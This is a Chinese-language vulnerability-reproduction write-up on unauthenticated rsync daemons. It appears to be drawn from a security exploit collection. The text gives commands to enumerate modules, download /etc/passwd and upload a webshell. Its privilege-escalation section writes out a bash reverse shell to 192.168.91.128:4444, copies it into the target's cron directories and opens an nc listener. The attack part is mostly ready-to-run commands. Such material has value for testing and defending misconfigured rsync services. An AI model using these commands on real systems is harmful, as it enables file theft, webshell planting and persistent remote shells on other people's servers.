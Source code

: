 Rsync 未授权访问漏洞
====================

一、漏洞简介
------------

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

**rsync的常用命令**

    列举整个同步目录或指定目录：
    rsync ip::
    rsync ip::xxx/
    下载文件或目录到本地：
    rsync -avz ip::xxx/xx.php /root
    rsync -avz ip::xxx/ /var/tmp
    上传文件到服务器：
    rsync -avz webshell.php ip::web/

二、漏洞影响
------------

三、复现过程
------------

`nmap`先扫一波：![1.png](./resource/Rsync未授权访问漏洞/media/rId24.png)

    rsync rsync://www.0-sec.org:873/
    rsync rsync://www.0-sec.org:873/src 来查看模块名列表
    我们再列出src模块下的文件
    rsync rsync://www.0-sec.org:873/src/

![2.png](./resource/Rsync未授权访问漏洞/media/rId25.png)

    我们可以下载任意文件：
    rsync -av rsync://www.0-sec.org:873/src/etc/passwd ./

![3.png](./resource/Rsync未授权访问漏洞/media/rId26.png)

**提权：**

写入`shell`并赋权：

    #!/bin/bash 
    /bin/bash -i >& /dev/tcp/192.168.91.128/4444 0>&1

    chmod +x shell

将`shell`上传至`/etc/cron.hourly`：

    rsync -av shell rsync://192.168.91.130/src/etc/cron.hourly
    rsync -av shell rsync://www.0-sec.org:873/src/etc/cron.d/shell

![4.png](./resource/Rsync未授权访问漏洞/media/rId27.png)

本地监听：

    nc -nvv -lp 4444

参考链接
--------

> https://fansonfan.github.io/2019/04/20/rsync-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
